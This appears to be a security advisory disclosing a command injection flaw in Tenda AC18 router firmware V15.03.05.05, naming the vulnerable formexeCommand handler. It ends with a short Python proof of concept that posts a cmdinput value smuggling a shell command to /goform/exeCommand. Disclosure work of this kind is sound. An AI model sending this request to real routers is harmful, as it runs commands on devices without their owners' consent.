


## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tendacn.com/iq/download/detail-3853.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a command injection vulnerability in the formexeCommand function. The s variable receives the cmdinput parameter from a POST request and is later assigned to the s variable. Since the user can control the input of cmdinput, the statement doSystemCmd("%s > /tmp/cmdTmp.txt", s); can cause a command injection. 



## POC

```python
import requests
IP = '198.19.249.140:80'
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=asd;ls -la . > ./tmp/hack;"
ret = requests.post(url=url,data=data)
```
